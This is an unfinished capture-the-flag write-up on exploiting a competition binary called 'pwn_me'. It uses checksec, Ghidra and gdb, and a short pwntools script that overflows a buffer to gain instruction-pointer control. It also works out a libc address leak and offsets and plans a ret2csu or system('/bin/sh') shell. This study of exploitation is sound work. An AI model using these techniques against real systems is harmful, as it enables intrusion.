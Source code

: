 # PWN1

Status: Unsolved

With all binaries, want to start with checking the security structures
```
$ checksec pwn_me
[*] '/home/ubuntu/CCT_2020/PWN/pwn1/pwn_me'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Alright with PIE and NX, we are in for a bit of a treat possibly, but no canary so overflows are possibly.

Ok so now we just run the executable to see what we are working with
```
$ chmod u+x pwn_me
$ ./pwn_me
0x7fc9d969bca0
Cookie Monster ONLY Wants...
PROMPT>ello
PROMPT>^C
```
So we have some sort of address put out, a message, then a never eneding prompt. Does this same behavior happen on the remote service"

```
$ ping www.cybercompetitionteam.com
64 bytes from 64.227.23.177 (64.227.23.177): icmp_seq=1 ttl=38 time=8.87 ms
$ nc 64.227.23.177 1337
0x7f9a13971ca0
Cookie Monster ONLY Wants...
PROMPT>
```
Yep, behavior is the same.

Pumping the binary into Ghidra we see on line 62
```
printf("%p\n",*chunks[7]);
```
This is the pointer being putout, which is pointer partway into this stack buffer.

Dropping this into gdb to manipulate the win funciton:
```
$ gdb pwn_me
> disass main
> b *main+494
> r
> set $rax=1
> c
Segmentation fault
```
So something is happening with the pointers it is referencing if we try and jump it. This tells me we may have to play by the game of the binary, rather than going for an overflow.

In Ghidra in the check cookies function we see
```
    iVar1 = strcmp(input,"snickerdoodles");
    if (iVar1 == 0) {
      iVar1 = 0;
    }
    else {
      iVar1 = strcmp(input,"oatmeal");
      if (iVar1 == 0) {
        iVar1 = 0;
      }
      else {
        iVar1 = strcmp(input,"gingersnap");
        if (iVar1 == 0) {
          iVar1 = 0;
        }
        else {
          iVar1 = strcmp(input,"shortbread");
          if (iVar1 == 0) {
            iVar1 = 0;
          }
          else {
            iVar1 = strcmp(input,"butter");
            if (iVar1 == 0) {
              iVar1 = 0;
            }
            else {
              iVar1 = strcmp(input,"molasses");
              if (iVar1 == 0) {
                iVar1 = 0;
              }
              else {
                iVar1 = strcmp(input,"sugar");
                if (iVar1 == 0) {
                  iVar1 = 0;
                }
                else {
                  iVar1 = strcmp(input,"sugar");
                  if (iVar1 == 0) {
                    iVar1 = 0;
                  }
                  else {
                    iVar1 = strcmp(input,"sugar");
                    if (iVar1 == 0) {
                      iVar1 = 0;
                    }
                    else {
                      iVar1 = strcmp(input,"almond");
                      if (iVar1 == 0) {
                        iVar1 = 1;
                      }
                      else {
                        iVar1 = strcmp(input,"toffee");
                        if (iVar1 == 0) {
                          iVar1 = 0;
                        }
                        else {
                          iVar1 = strcmp(input,"maple");
                          if (iVar1 == 0) {
                            iVar1 = 0;
                          }
                          else {
                            iVar1 = strcmp(input,"fluffernutter");
                            if (iVar1 == 0) {
                              iVar1 = 0;
                            }
                            else {
                              iVar1 = 0;
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  return iVar1;
}
```

So lets see where entering this into the funciton works for us
```
$ gdb pwn_me
> b get_cookie
> r
snickerdoodles
```
So as long as I have a space afte snickerdoodles, I am fine. So it is sending me back into the function. Let's see whet this all looks like when I enter the inputs it is looking for

```
$ ./pwn_me
0x7fb480ae5ca0
Cookie Monster ONLY Wants...
PROMPT>almond


Segmentation fault (core dumped)
```
Alright, that is interesting, what is happening here?
```
$ gdb pwn_me 
> b *main+494 //right after the return from get_cookie
> r
```

So the `memcpy` call puts the input into another address ... boom, there it is. The puts call (`*main+549) prints everything after the space in almond, so we just need to overflow that until we get to the flag. 

Wait no, we want shell, not a flag. Maybe it is a printf vulnerability?  

Ok, we soldier on, why is the segfault happening? 
```
$ gdb pwn_me
> b *main+0
> reg
RBP  0x555555555620 (__libc_csu_init)
> b *main+559 // the leave of main
> si
> x/dx $rsp
0x00000
```

So something is happening here where the stack is shifting causing the segfault, the question is, can we control that?

Well, lets see if we can overwite rip, get us some options.

Boom, got it with pwntools
```
from pwn import *

p = process("./pwn_me")
payload = "almond "
payload += "A"*417
payload += "B"*8
p.sendline(payload)
print(p.recv())
```

So we have RIP control, we are going to need to leak an address to figure out libc.

Alright, so were is this address pointing?
```
$ python hack.py
0x7f42b752bca0
$ gdb -p=123475
> vmmap 
 0x7f42b752b000     0x7f42b752d000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
```

Ok, so is this somehwere in the plt or the GOT? Nope, I went through and followed the GOT and the PLT from puts, this is nowhere near there. Where is this? Well thats exactly the thing, it is a libc address. 

So let's see if this address is consistent in libc? 
| PID | Printed Addr | Puts Addr | Difference |
|--|-|-|-|
|11495| `0x7fcff38ffca0`| `0x00007fcff3624070`| 2997296 |
|11511| `'0x7f742f59fca0` | `0x00007f742f2c4070` | 2997296 |

Got it, so we have a libc addr straight up given to us, what next? Ret2CSU. For that, we are going to need the base address of libc.


| PID | Printed Addr | LIBC Base Addr | Difference |
|--|-|-|-|
|11580| `0x7fd22f8a1ca0`| `0x7fd22f4b6000`| 4111520 |
|11596| `0x7f3f0fb3eca0`| `0x7f3f0f753000`| 4111520 |


Got up to line 100 in hack.py of setting up the ret2csu

#IDEA: Maybe just try a simpler system("/bin/sh") call
